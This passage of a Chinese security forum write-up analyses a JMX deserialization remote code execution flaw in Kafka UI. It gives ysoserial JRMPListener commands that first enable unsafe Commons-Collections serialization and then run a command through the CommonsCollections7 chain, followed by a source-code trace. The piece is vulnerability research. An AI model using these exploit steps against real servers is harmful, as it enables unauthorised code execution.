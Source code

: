 点击`Configure Metrics`，设置连接JMX, 这个是监控Kafka brokers性能的功能，JMX基于RMI协议，因此可能容易受到反序列化攻击，攻击者可创建一个恶意JMX侦听器为任何RMI调用返回恶意序列化对象，成功利用该漏洞可能导致远程代码执行。

![image-20240626181114038](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-e4d50b78b68403200da1f902b04112c9045f0156.png)

此时需要一个rmi服务，起在上面临时起Kafka brokers的机器上，并且还需要找到一条合适的利用链

首先查看依赖，发现存在`Commons-Collections-3.2.2`

![image-20240626202223151](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-9291eee469c10a26c83024da89d6371ec749f415.png)

这个版本比起多条利用链的3.2.1版本，添加了一个配置 `org.apache.commons.collections.enableUnsafeSerialization`,这个配置用来检测反序列化是否安全，不安全的会抛出异常，所以要想办法设置`org.apache.commons.collections.enableUnsafeSerialization=true`

这里使用的工具是<https://github.com/artsploit/ysoserial/tree/scala1> ，需要自己编译

第一步先设置`org.apache.commons.collections.enableUnsafeSerialization=true`

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1234 Scala1 "org.apache.commons.collections.enableUnsafeSerialization:true"
```

![image-20240626203039447](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-676f2105905b78b201b7fd59f319cb986f8ddb50.png)

第二步利用CC7执行命令

```php
./java -cp '/root/Desktop/ysoserial-0.0.6-SNAPSHOT-all.jar'  ysoserial.exploit.JRMPListener 1234 CommonsCollections7 "touch /tmp/a.txt" 
```

![image-20240626203140156](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-a00a89203d9cfa03c1a8306099a497e8924b9024.png)

执行结果

![image-20240626203210475](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-ec428a452417ce99e5ea73b450e29f530aabd42a.png)

### 代码分析

依旧是先从控制器中获取线索，通过控制器名称，锁定了`com.provectus.kafka.ui.service.metrics.MetricsCollector` ![image-20240627093308930](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-b917b4bd62609c93ce1881ee09e2e1d4149afbeb.png)

这个`getMetrics`方法，是先判断前端选择的类型，漏洞所在的是类型`JMX`,参数被传入`this.jmxMetricsRetriever.retrieve`方法进行处理

跟进查看

![image-20240627094208371](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-b92fdff89940bf4298ec80038d162a2dda856313.png)

该方法先检测当前Kafka集群`c`配置是否了SSL JMX端点，并且系统是否支持SSL JMX。因为两个条件都为false,进入到else语句中，跟进`this.retrieveSync()`

![image-20240627094830791](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-a53c71e6fd51763769e830aca5718ca2ab9de40a.png)

这个方法开始准备连接，通过拼接前端输入的Kafka集群IP和JMX端口构造`jmxUrl`，然后传入到`withJmxConnector`进行连接

![image-20240627095728646](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-94eb3d4a79d84e40da1d7473fc0c995d2b62ccae.png)
